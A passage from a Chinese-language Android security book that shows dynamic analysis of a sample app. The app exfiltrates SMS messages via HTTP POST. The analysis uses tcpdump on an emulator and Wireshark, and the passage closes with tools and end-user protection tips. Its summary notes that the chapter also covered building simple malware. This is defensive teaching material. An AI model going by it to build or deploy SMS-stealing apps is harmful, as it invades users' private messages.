正如您在前面的屏幕截图中所看到的，该应用正在发送短信作为 post 数据。

### 注

**注意**：同样的步骤也适用于 HTTPS 流量，只是我们需要在 Android 设备/仿真器中安装 Burp 的 CA 证书。

### 使用 tcpdump 和 Wireshark 分析网络流量

我们在上一节中了解了如何分析 http/https 流量。如果应用正在通过其他 TCP 端口进行通信，该怎么办？在这种情况下，我们可以使用名为 tcpdump 的工具被动拦截流量，然后将捕获的流量传递给类似的 Wireshark 进行进一步分析。

让我们看看如何使用 tcpdump 和 Wireshark 分析同一目标应用的网络流量。

首先，我们需要将 tcpdump ARM 二进制文件推送到 Android 设备上，如以下摘录所示：

```
$ adb push tcpdump /data/local/tmp
1684 KB/s (645840 bytes in 0.374s)
$

```

我们正在将 tcpdump 推送到模拟器的`/data/local/tmp/`文件夹中。

我们需要确保 tcpdump 二进制文件具有在设备上运行的可执行权限。

以下摘录显示 tcpdump 二进制文件没有在设备上运行的可执行权限：

```
$ adb shell
root@generic:/ # cd /data/local/tmp
root@generic:/data/local/tmp # ls -l tcpdump 
-rw-rw-rw- root     root       645840 2015-03-23 02:23 tcpdump
root@generic:/data/local/tmp #

```

让我们为该二进制文件授予可执行权限，如以下摘录所示：

```
root@generic:/data/local/tmp # chmod 755 tcpdump 
root@generic:/data/local/tmp # ls -l tcpdump 
-rwxr-xr-x root     root       645840 2015-03-23 02:23 tcpdump
root@generic:/data/local/tmp #

```

很好，我们现在可以使用如下所示的命令执行这个 tcpdump 二进制文件：

```
./tcpdump –v –s 0 –w [file.pcap]

```

*   `-v`提供详细的输出
*   `-s`是指 snarf 指定的字节数
*   `-w`是将数据包写入文件

```
root@generic:/data/local/tmp # ./tcpdump -v -s 0 -w traffic.pcap 
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
Got 75

```

正如您在前面的摘录中所看到的，tcpdump 已经开始捕获设备上的数据包。

现在，启动目标应用并通过单击可用按钮浏览所有活动。我们的目标应用只有一个可用活动，因此打开应用并单击**启动游戏**按钮，如下所示：


当在应用中导航时，如果它建立了任何网络连接，tcpdump 将捕获该流量。

我们现在可以通过按*Ctrl*+*C*组合键停止捕获数据包。

```
root@generic:/data/local/tmp # ./tcpdump -v -s 0 -w traffic.pcap 
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
^C558 packets captured
558 packets received by filter
0 packets dropped by kernel
root@generic:/data/local/tmp #

```

现在数据包将保存在名为`traffic.pcap`的设备上。我们可以使用`adb pull`命令将其拉到本地机器上，如下所示：

```
$ adb pull /data/local/tmp/traffic.pcap
1270 KB/s (53248 bytes in 0.040s)
$ 

```

现在可以使用诸如 Wireshark 之类的工具打开拉到本地机器上的`pcap`文件。以下屏幕截图显示了使用 Wireshark 打开此`pcap`文件时的外观：



由于我们的恶意软件正在进行 http 连接，我们可以使用 Wireshark 中的 http 过滤器过滤流量，如下面的屏幕截图所示：


正如您在上图中所看到的，目标应用正在向服务器发送 HTTP POST 请求。单击该特定数据包显示详细信息，如下所示：


如上图所示，应用使用 HTTP POST 请求将 SMS 从设备发送到远程服务器。**  **# 自动分析工具

有时，手动执行分析部分可能非常耗时。有很多工具可以对 Android 应用进行动态分析。如果您选择离线分析，Droidbox 是您的最佳选择。Droidbox 是一个沙盒环境，可用于分析 Android 应用。有一些在线分析引擎可以很好地完成这项工作。沙机器人是其中的一个。你可以去[http://sanddroid.xjtu.edu.cn/](http://sanddroid.xjtu.edu.cn/) 和上传您的 APK 文件进行自动分析。

## 如何防范 Android 恶意软件？

作为终端用户，在使用 Android 设备时必须小心。正如我们在本章中所看到的，Android 恶意软件可以造成巨大的破坏，只需要很少的 Android 编程知识就可以轻松利用出来。以下是一些针对最终用户的一般提示，以确保其免受 Android 恶意软件的攻击：

*   始终从官方市场（Play Store）安装应用。
*   不要盲目接受应用请求的权限。
*   当应用请求的权限超过其实际需要时，请谨慎。例如，notes 应用请求`READ_SMS`许可是可疑的。
*   确保在发布更新后立即更新设备
*   使用反恶意软件应用。
*   尽量不要在手机上放置太多敏感信息。

# 总结

在本章中，我们学习了如何通过编程创建可以连接到远程服务器的简单恶意软件。本章还概述了合法应用如何容易被恶意攻击者感染。我们还了解了如何使用静态和动态分析技术执行恶意软件分析。最后，我们已经了解了如何避免最终用户使用此类恶意软件。在下一章中，我们将讨论对 Android 设备的攻击。**********